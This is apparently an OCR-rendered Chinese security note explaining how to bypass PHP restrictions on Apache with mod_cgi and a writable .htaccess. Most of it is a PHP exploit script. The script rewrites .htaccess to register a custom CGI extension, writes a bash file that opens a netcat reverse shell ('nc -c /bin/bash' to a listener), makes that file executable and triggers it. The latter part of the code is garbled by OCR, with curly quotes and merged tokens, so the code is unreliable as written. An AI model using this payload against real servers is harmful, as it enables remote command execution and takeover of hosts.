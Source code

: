 ```yaml
---
title: "利用 Apache+mod_cgi+.htaccess 绕过"
id: zhfly3469
---
```


## 利用 Apache+mod_cgi+.htaccess 绕过

**1\. 前提条件**

*   启用mod-cgi
*   允许.htaccess文件
*   .htaccess可写

**2\. 基本原理**

在apache的WEB环境中，我们经常会使用.htaccess这个文件来确定某个目录下的URL重写规则，特别是一些开源的CMS或者框架当中经常会用到，比如著名的开源论坛discuz!，就可以通过.htaccess文件实现URL的静态化，大部分PHP框架，例如ThinkPHP和Laravel，在apache环境下会用.htaccess文件实现路由规则。但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令。

**3\. exp**

```
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹shell
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd";
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
   echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
   @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND);
   header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
   $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
   $writable = is_writable('.'); //检测当前目录是否可写
   $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
       checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
       checkEnabled("Iswritable",$writable,"Yes","No");
       checkEnabled("htaccessworking",$htaccess,"Yes","No");
   if(!($modcgi && $writable&& $htaccess))
   {
       echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
   }
   else
   {

checkEnabled(“Backing

up.htaccess”,copy(".htaccess",".htaccess.bak"),“Suceeded!Saved in

.htaccess.bak”,“Failed!”); [//备份一下原有.htaccess](//xn--4gqwa83ev9kv3h4uw.htaccess) `checkEnabled(“Write

.htaccessfile”,file_put_contents(’.htaccess’,“Options

+ExecCGI\nAddHandlercgi-script

.dizzle”),“Succeeded!”,“Failed!”);//.dizzle，我们的特定扩展名

checkEnabled(“Write shellfile”,file_put_contents(‘shell.dizzle’,$shellfile),“Succeeded!”,“Failed!”);//写入文件

checkEnabled(“Chmod777”,chmod(“shell.dizzle”,0777),“Succeeded!”,“Failed!”);//给权限

echo “Executing the script now.Check your listener <img src>”; //调用

}

}

?>` 
```